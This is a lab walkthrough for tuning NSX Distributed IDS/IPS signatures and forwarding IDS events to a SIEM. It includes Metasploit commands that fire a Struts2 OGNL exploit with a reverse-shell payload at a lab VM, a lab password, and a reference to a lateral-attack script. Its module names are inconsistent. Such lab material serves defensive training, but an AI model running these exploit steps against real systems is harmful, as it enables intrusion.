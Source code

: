 
## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 3 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
    ![](assets/images/IDPS_POC_22.PNG)
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.
![](assets/images/IDPS_POC_21.PNG)
10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.

Now that we have tuned our Profile, we will try the failed exploit attempt again, and confirm this time the signatures don't fire.

12.	From the already open console session with  **External VM**, use the already configured **struts2_namespace_ognl** Metastploit module to launch the exploit attempt again. 
    * Type **exploit** to initiate the exploit. If you had previously closed Metsploit, then repeat step #1 of this exercise instead to launch the exploit attempt
13. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
14. Confirm the total number of events or the number of times each **Apache_Struts2** signature fired has not increased.
![](assets/images/IDPS_POC_22.PNG)
15. You have now completed this exercise.

**Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

> **Note**: In addition to sending IDS/IPS Events from each distributed IDS/IPS engine, you can send them directly to a Syslog collector or SIEM from each host. Events are sent in the EVE.JSON format for which many SIEMS have pre-existing parsers/dashboards. 

In this exercise, you will learn how to conigure IDS event export from each host to your syslog collector or SIEM of choice. I will use **vRealize Log Insight**. You can use the same or your own SIEM of choice.
We will not cover how to install **vRealize Log Insight** or any other logging platform, but the following steps will cover how to send IDS/IPS evens to an aleady configured collector.

1. Login to lab vCenter and click on **Hosts and Clusters**, then select one of the 3 hosts that were deployed.
2. Click the **Configure** Tab and Scroll down to **System**. Click **Advanced System Settings**
3. Click the **Edit** button
4. In the **Filter** field, type **loghost**
5. Enter the **IP address of your syslog server** in the **Syslog.global.logHost** value field and click **OK** to confirm.
![](assets/images/IDPS_POC_23.PNG)
6. Repeat the same for the remaining 2 hosts.
7. Click on **Firewall** in the same **System** menu
8. Click the **Edit** button
9. In the **Filter** field, type **syslog**
10. Tick the checkbox next to **syslog** to allow outbuound syslog from the host.
11. Repeat the same for the remaining 2 hosts.
![](assets/images/IDPS_POC_24.PNG)
12. Open a terminal session to one of the lab hypervisors , login with **root**/**VMware1!** and execute the below commands to enable IDS log export via syslog
    * Type **nsxcli** to enter the NSX CLI on the host
    * Type **set ids engine syslogstatus enable** to enable syslog event export
    * Confirm syslog event export was succesfully enabled by running the command **get ids engine syslogstatus**

```console
[root@localhost:~] nsxcli
localhost> set ids engine syslogstatus enable
    result: success
    
localhost> get ids engine syslogstatus
       NSX IDS Engine Syslog Status Setting
--------------------------------------------------
                       true
```
13. Login to your syslog collector/SIEM and confirm you are receiving logs form each host.
14. Configure a parser or a filter to only look at IDS events. You can for example filter on the string **IDPS_EVT**. 
![](assets/images/IDPS_POC_25.PNG)
15. Now we will run the lateral attack scenario we used in an earlier exercise again. This time, use the pre-defined script to run the attack instead of manaully cofiguring the **Metasploit modules**.
16. Before you execute the script, if you have not previously used it, you need to ensure the IP addresses match your environment.  Utype **sudo nano attack2.rc** and replace the **RHOST** and **LHOST** IP addresses accordingly to match with the IP addresses in your environment. 
    * **RHOST** on line 3 should be the IP address of the App1-WEB-TIER VM 
    * **SUBNET** on line 6 (route add) should be the Internal Network subnet 
    * **LHOST** on line 9 should be the IP address of the External VM (this local machine) 
    * **RHOST** on line 10 should be the IP address of the App1-APP-TIER VM RHOST on line 13 should be the IP address of the App2-APP-TIER VM

---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
